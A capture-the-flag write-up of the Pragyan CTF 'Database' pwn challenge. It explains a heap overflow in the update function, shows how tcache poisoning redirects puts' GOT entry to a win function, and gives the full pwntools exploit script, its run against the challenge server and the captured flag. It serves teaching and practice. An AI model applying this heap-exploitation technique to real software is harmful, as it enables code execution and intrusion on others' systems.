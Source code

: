 ```yaml
--- 
layout: post 
title: "[Pragyan CTF] Database" 
date: "2022-03-07" 
categories: [Pwn, Heap-overflow, Tcache]
author: eurus 
---
```



I didn’t solve this challenge in the CTF, but it was a really fun challenge, and my first heap expoitation challenge.
This is the output of the checksec over the ELF of this challenge.

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled

```

We had an executable that will print this menu, and at will leak for us the address on where is placed the main function since PIE is enabled.

```
 ____        _        ____
|  _ \  __ _| |_ __ _| __ )  __ _ ___  ___ 
| | | |/ _` | __/ _` |  _ \ / _` / __|/ _ \
| |_| | (_| | || (_| | |_) | (_| \__ \  __/
|____/ \__,_|\__\__,_|____/ \__,_|___/\___|

Welcome to MY DataBase!
You can store as many as 0x10 strings!!!
This might help: 0x55af4cc01275
You have following options

+-----------------------------+
| 1. Show all data            |
| 2. Insert a element         |
| 3. Update a element         |
| 4. Remove a element         |
| 5. Exit                     |
+-----------------------------+

```

We can see that is a simple implementation of a database used to store some strings. There are no Use after free or Double free bug since the pointer of the allocated region was nulled after the free.
But in the ```Update a element``` section of the program we have a heap overflow bug. Here we can see the decompiled code for the ```update_item``` function

```c

fwrite("Please enter the index of element => ", 1, 0x25, stderr);
read(0, buf, 8);
index_element = atoi(buf);
if ( *( &data_base + 2 * index_element) ){

      fwrite("Please enter the length of string => ", 1, 0x25, stderr);
      read(0, nptr, 8);
      new_read_size = atoi(nptr);

      *(&data_base + 2 * index_element) = new_read_size;
      fwrite("Please enter the string => ", 1, 0x1B, stderr);
      byte_read = read(0, *( &data_base + 2 * index_element), new_read_size))

      ...
}
else{
      fwrite("Invalid index\n", 1, 0xE, stderr);
    }
```
With this bug we can overwrite the other chunk if we write more data than the size of the selected chunk.
In the version of the glibc that this elf use the tcache bins are used. The tcache bins will mantain a linked list of the freed chunks. The tcache is a data structure used from the glibc that is allocated for each thread, it behave similar to an arena, but is not shared between threads.
The tcache use singly linked, LIFO lists. The procedure used to unlink a chunk from the tcache will write the chunk’s fd (foreward pointer) into the head of the list. 
So the exploit will try to use this to overwrite the pointer to the win function over the pointer of the puts in the got.

```c
int secret()
{
  return system("/bin/cat ./flag");
}

```

First of all we need to create some helper function to interact with the executable. And read the pointer of the main function to calculate where the ELF is mapped in order to take the pointers of the win function and the puts in the got.

```python
def insert_item(leng, data):
    p.sendlineafter(b'choice => ', b'2')
    p.sendlineafter(b'of string => ', f'{leng}'.encode())
    p.sendafter(b'to save => ', data)

# heap overflow here
def update_item(index, leng, data):
    p.sendlineafter(b'choice => ', b'3')
    p.sendlineafter(b'of element => ', f'{index}'.encode())
    p.sendlineafter(b'of string => ', f'{leng}'.encode())
    p.sendafter(b'string => ', data)

def delete_item(index):
    p.sendlineafter(b'choice => ', b'4')
    p.sendlineafter(b'index of element => ', f'{index}'.encode())

def leave_int():
    p.sendlineafter(b'choice => ', b'5')
    p.interactive()

p.recvuntilS(b'This might help: ')
main_addr = p.recvlineS()

elf.address = int(main_addr, 16)-elf.sym.main
log.info(f'Main @ {main_addr}')
log.info(f'Base address od the ELF @ {hex(elf.address)}')

win_function_addr = elf.sym.secret
puts_got = elf.got.puts

log.info(f'Win func @ {hex(win_function_addr)}')
log.info(f'puts in got @ {hex(puts_got)}')

```

After this we can start to mess with the heap. First we allocate three chunk of size 0x10. And then we free the third and the second in order to put them in the tcache LIFO linked list.



```python
insert_item(0x10,'aaaa') #index 0
insert_item(0x10,'bbbb') #index 1
insert_item(0x10,'cccc') #index 2

delete_item(2)
delete_item(1)

```

Now we have in the tcache list this situation: HEAD-> elem1->elem2->NULL. Now we can overwrite the fd value of the elem1 by updating the elem0 and perform a heap overflow in this way.

```python

# Heap overflow on the first item, in order to replace 
# the tcache fd to puts GOT address
payload = p64(0)*3+p64(0x21)+p64(puts_got)
update_item(0,len(payload),payload)

```

Now allocating a chunk with size of 0x10 will lead to copy the puts got address (placed in the fd of the first chunk) in the head in the tcache and so by requestiing another chunk with size 0x10 will take us a chunk in the got that point to puts got pointer and so what we write inside this chunk will be written at the entry of puts in the got.

```python

insert_item(0x10, 'ffff')
# This item will be stored at puts GOT address
insert_item(0x10, p64(win_function_addr))
```

Now when the program will call puts, instead of executing the puts function will call the win function ```secret()```.
We can see that in the leave function is used a puts:

```c
int leave()
{
  return puts("Thanks a lot!\nGoodbye!");
}
```

So this is the final script

```python
#! /usr/bin/env python3
import pprint
from pwn import *

exe = './database'
elf = context.binary = ELF(exe)
    
def insert_item(leng, data):
    p.sendlineafter(b'choice => ', b'2')
    p.sendlineafter(b'of string => ', f'{leng}'.encode())
    p.sendafter(b'to save => ', data)

# heap overflow here
def update_item(index, leng, data):
    p.sendlineafter(b'choice => ', b'3')
    p.sendlineafter(b'of element => ', f'{index}'.encode())
    p.sendlineafter(b'of string => ', f'{leng}'.encode())
    p.sendafter(b'string => ', data)


def delete_item(index):
    p.sendlineafter(b'choice => ', b'4')
    p.sendlineafter(b'index of element => ', f'{index}'.encode())

def leave_int():
    p.sendlineafter(b'choice => ', b'5')
    p.interactive()

p = remote('binary.challs.pragyanctf.tech', 6004)
#p = elf.process()
#gdb.attach(p)

p.recvuntilS(b'This might help: ')
main_addr = p.recvlineS()

elf.address = int(main_addr, 16)-elf.sym.main
log.info(f'Main @ {main_addr}')
log.info(f'Base address od the ELF @ {hex(elf.address)}')

win_function_addr = elf.sym.secret
puts_got = elf.got.puts

log.info(f'Win func @ {hex(win_function_addr)}')
log.info(f'puts in got @ {hex(puts_got)}')

insert_item(0x10,'aaaa') #index 0
insert_item(0x10,'bbbb') #index 1
insert_item(0x10,'cccc') #index 2

delete_item(2)
delete_item(1)

# Heap overflow on the first item, in order to replace 
# the tcache next pointer to puts GOT address
payload = p64(0)*3+p64(0x21)+p64(puts_got)
update_item(0,len(payload),payload)

insert_item(0x10, 'ffff')
# This item will be stored at puts GOT address
insert_item(0x10, p64(win_function_addr))

# will print the flag since call puts
leave_int()
```
and this is the output of the exploit.
```
[*] '/home/eurus/Downloads/database_/database'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to binary.challs.pragyanctf.tech on port 6004: Done
[*] Main @ 0x559e08b6e275
[*] Base address od the ELF @ 0x559e08b6d000
[*] Win func @ 0x559e08b6e262
[*] puts in got @ 0x559e08d6ecd0
/home/eurus/Downloads/database_/./solver.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendafter(b'to save => ', data)
[*] Switching to interactive mode
p_ctf{Ch4Ng3_1T_t0_M4x1Mum}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to binary.challs.pragyanctf.tech port 6004
```
